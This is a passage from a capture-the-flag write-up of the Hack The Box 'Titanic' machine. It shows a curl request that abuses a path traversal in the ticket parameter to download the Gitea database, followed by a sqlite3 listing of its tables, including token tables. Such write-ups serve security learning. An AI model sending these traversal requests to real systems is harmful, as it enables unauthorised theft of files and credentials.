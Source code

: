 ![](../assets/images/htb-titanic/6.png)

I download this db with curl: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/titanic]
└─$ curl 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' -o gitea.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2036k  100 2036k    0     0   613k      0  0:00:03  0:00:03 --:--:--  613k
```

We can see a lot of tables: 

```bash
┌──(kali㉿kali)-[~/labs-hack/titanic]
└─$ sqlite3 gitea.db 
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .headers on
sqlite> .tables
access                     oauth2_grant             
access_token               org_user                 
action                     package                  
action_artifact            package_blob             
action_run                 package_blob_upload      
action_run_index           package_cleanup_rule     
action_run_job             package_file             
action_runner              package_property         
action_runner_token        package_version          
action_schedule            project                  
action_schedule_spec       project_board            
action_task                project_issue            
action_task_output         protected_branch         
action_task_step           protected_tag            
action_tasks_version       public_key               
action_variable            pull_auto_merge          
app_state                  pull_request             
attachment                 push_mirror              
auth_token                 reaction                 
badge                      release                  
branch                     renamed_branch           
collaboration              repo_archiver            
comment                    repo_indexer_status      
commit_status              repo_redirect            
commit_status_index        repo_topic               
```